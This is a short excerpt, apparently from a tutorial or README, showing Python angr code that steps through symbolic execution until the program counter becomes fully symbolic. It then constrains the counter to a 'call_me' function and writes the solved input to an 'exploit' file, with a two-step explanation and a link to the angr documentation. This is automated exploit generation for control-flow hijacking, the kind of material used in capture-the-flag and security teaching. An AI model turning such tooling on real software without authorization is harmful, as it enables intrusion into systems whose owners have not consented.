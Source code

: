 ```py
    while exploitable_state is None:
        #print(sm)
        sm.step()
        if len(sm.unconstrained) > 0:
            #print("find {} unconstrained state, let's track exploitability".format(len(sm.unconstrained)))
            for u in sm.unconstrained:
                if fully_symbolic(u, u.regs.pc):
                    exploitable_state = u
                    break
            sm.drop(stash="unconstrained")

    ep = exploitable_state
    ep.add_constraints(ep.regs.pc == call_me)

    with open("./exploit", "wb") as f:
        f.write(ep.posix.dumps(0))
    
    #print("Put exploit into file")

if __name__ == '__main__':
    main()
```  
This exploit can be separated to two steps:  
1. Find exploitable state
2. add constraints and constraint solving

References
======
* [angr Documentation](https://docs.angr.io)
